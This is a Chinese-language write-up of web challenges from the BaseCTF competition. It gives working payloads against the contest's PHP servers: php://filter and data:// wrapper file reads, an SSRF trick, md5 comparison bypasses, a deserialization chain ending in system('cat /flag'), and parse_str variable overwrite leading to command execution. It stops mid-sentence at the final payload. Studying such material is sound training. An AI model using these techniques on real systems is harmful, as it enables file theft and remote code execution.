








# webのwp #
## 以下为来自basectf的wp题解 ##
<https://gz.imxbt.cn/games/13/challenges#>

*很简单的一个题目，直接用python写个程序即可。*

下面是一个示例 ~~写得有点史山，但是能用就行~~
```python
from bs4 import BeautifulSoup  
import requests  
def calculate(method,num1,num2):  
    if method == 1:  
        return num1 * num2  
    elif method == 2:  
        return num1 // num2  
    elif method == 3:  
        return num1 + num2  
    elif method == 4:  
        return num1 - num2  
    else:  
        print("出现遗漏的运算符")  
        return 0  
url = "http://gz.imxbt.cn:20095/"  
session = requests.Session()  
ooo = 0  
result = 0  
while ooo < 60:  
    ooo += 1  
    data = {'answer': result}  
    response = session.post(url, data=data)  
    print(response.text)  
    soup = BeautifulSoup(response.text, "html.parser")  
    content = soup.prettify()  
    ok = False  
    num1 = ""  
    num2 = ""  
    method = 0  
    first = True  
    for i in content:  
        if i == "?":  
            break  
        if i == "d":  
            ok = True  
            continue  
        if ok:  
            if i != " " and first:  
                try:  
                    int(i)  
                    num1 += i  
                except ValueError:  
                    if i == "×":  
                        method = 1  
                    elif i == "÷":  
                        method = 2  
                    elif i == "+":  
                        method = 3  
                    elif i == "-":  
                        method = 4  
                    first = False  
            if not first and i != "×" and i != "÷" and i != "+" and i != "-":  
                num2 += i  
    print(num1,num2)  
    num1 = int(num1)  
    num2 = int(num2)  
    result = calculate(method, num1, num2)  
    print(result)  
```

***

*非常好的代码审计*

主要是考了php的特性和伪协议，话不多说，直接上脚本

``` python
import requests
res = requests.post("http://gz.imxbt.cn:20099/index.php?e[m.p=114514.1&a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php&c=__toString",data = {"try":"-"*1000001+"HACKER"})
print(res.text)
```
***

考察伪协议和SSRF  
第一个是读取的文件，所以data://text/plain,Aura  
第二个直接带上这个url即可，同时这里有个SSRF漏洞，注意到该页面存在这个字符串，所以直接@127.0.0.1就可以了   
第三个gift不用多说，直接php://filter/convert.base64-encode/resource=flag.php   


***


考察php了   
`$dir`这个类，要求其是可迭代对象，又要求是遍历文件，那直接传参 `K=DirectoryIterator&W=/secret/`   发现有一个`f11444g.php`
最后又执行了另一个类,经典伪协议读取`J=SplFileObject&H=php://filter/read=convert.base64-encode/resource=/secret/f11444g.php`


入门md5   
先弱比较，再强比较   
name和password很简单，直接两个md5后开头为0e的字符串即可（0e会被认为是科学计数法）
name2和password2也差不多，只是要传入数组，数组的md5就是ARRAY这个字符串的md5

***

  
开始反序列化和魔法方法，这些类里面的方法几乎都是魔法方法，具体就自己去了解，下面只讲有用的   
GET传入ser后触发web的wakeup，这里的kw要用于拼接字符串，触发toString,

这个if如果过了，那就有一个从未在其他地方出现过的$nonono，也就触发了__get，get这里会触发getflag，其中Misc类的getflag才是有用的，所以over要是misc类

又最后这里ser会反序列化，所以我们先本地跑一下
``` php
<?php
highlight_file(__FILE__);
error_reporting(0);

class re{
    public $chu0;
    public function __toString(){
        if(!isset($this->chu0)){
            return "I can not believes!";
        }
        $this->chu0->$nononono;
    }
}

class web {
    public $kw;
    public $dt;

    public function __wakeup() {
        echo "lalalla".$this->kw;
    }

    public function __destruct() {
        echo "ALL Done!";
    }
}

class pwn {
    public $dusk;
    public $over;

    public function __get($name) {
        if($this->dusk != "gods"){
            echo "什么，你竟敢不认可?";
        }
        $this->over->getflag();
    }
}

class Misc {
    public $nothing;
    public $flag;

    public function getflag() {
        eval("system('cat /flag');");
    }
}

class Crypto {
    public function __wakeup() {
        echo "happy happy happy!";
    }

    public function getflag() {
        echo "you are over!";
    }
}
$a = new re();
$b = new web();
$c = new pwn();
$d = new Misc();
//给kw赋值]
$b -> kw = $a;
//chu0赋值
$a -> chu0 = $c;
//dusk
$c -> dusk = "gods";
$c -> over = $d;
echo serialize($a);
?>

```
拿到结果直接传进去即可


parse_str()函数用于把查询字符串解析到变量中，如果没有array参数，则由该函数设置的变量将覆盖已存在的同名变量，导致变量覆盖漏洞。  
根据上述代码以及分析，可以知道

要使第一个if为false，以及满足第二个if语句需要传入f l a g 1 和 flag1和flag1和flag2并且值为8gen1
要满足第三、第四个if，需要在POST传参504_SYS.COM和sys，并且sys的值需要绕过第四个if内的符号
根据parse_str()函数以及extract()函数，需要传入POST类的flag1和flag2并且值为8gen1  
``` 
GET
?_POST[flag1]=8gen1&_POST[flag2]=8gen1
```
然后就过了第一层。第二层的504_SYS.COM要用[或]或.来进行绕过。即传入504[SYS.COM以免最后的那个.被解析了。最后一层我们先用sys=system(ls);尝试一下。发现读出了flag.php和index.php。但是由于.和通配符都被过滤了，我们无法正常读取flag.php了。
而由于flag.php在源码中已经被包含了，我们直接输出flag这个变量就可以，因为一般都是在php执行中给flag这个变量赋值的，最终payload：


